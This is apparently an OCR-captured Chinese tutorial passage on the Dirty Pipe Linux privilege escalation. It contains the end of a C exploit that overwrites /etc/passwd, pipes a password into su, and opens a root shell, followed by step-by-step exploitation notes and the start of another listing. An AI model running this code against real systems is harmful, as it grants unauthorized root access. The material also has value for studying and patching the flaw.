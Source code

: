      134.     if (nbytes < 0) {
    
      135.         perror("write failed");
    
      136.         return EXIT_FAILURE;
    
      137.     }
    
      138.     if ((size_t)nbytes < data_size) {
    
      139.         fprintf(stderr, "short write\n");
    
      140.         return EXIT_FAILURE;
    
      141.     }
    
      142.   143.     printf("It worked!\n");
    
      144.   145.         system("/bin/sh -c '(echo aaron; cat) | su - -c \""
    
      146.                 "echo \\\"Restoring /etc/passwd from /tmp/passwd.bak...\\\";"
    
      147.                 "cp /tmp/passwd.bak /etc/passwd;"
    
      148.                 "echo \\\"Done! Popping shell...\\\";"
    
      149.                 "sleep 2;"
    
      150.                 "echo \\\"(run commands now)\\\";"
    
      151.                 "/bin/sh;" // one shold work
    
      152.             "\" root'");
    
      153.     return EXIT_SUCCESS;
    
      154. }
    
    
    

  1. 创建一个管道（pipe）

  2. 通过（pipe_write）填充管道至满，这样所有的buf(pipe 缓存页)都初始化过了，flag 默认初始化为PIPE_BUF_FLAG_CAN_MERGE

  3. 将管道清空(pipe_read)，这样通过splice()系统调用传送文件的时候就会使用原有的初始化过的buf结构

  4. 使用Splice()读取目标文件（只读）的一字节数据发送至pipe

  5. write()将任意数据继续写入pipe，此数据会覆盖目标文件内容

![](https://gitee.com/fuli009/images/raw/master/public/20230714175312.png)

利用总结与拓展：

  * 通过漏洞覆写`/etc/passwd`密码文件，然后使用该`openssl`命令为您选择的密码创建一个 SHA512Crypt 哈希，修改 root 帐号密码，然后通过管道将自定义密码灌入`su -`命令达到切换到 root 帐号的目的，从而实现提权。

    
          1. #define _GNU_SOURCE
    
      2. #include <unistd.h>
    
      3. #include <fcntl.h>
    
      4. #include <stdio.h>
    
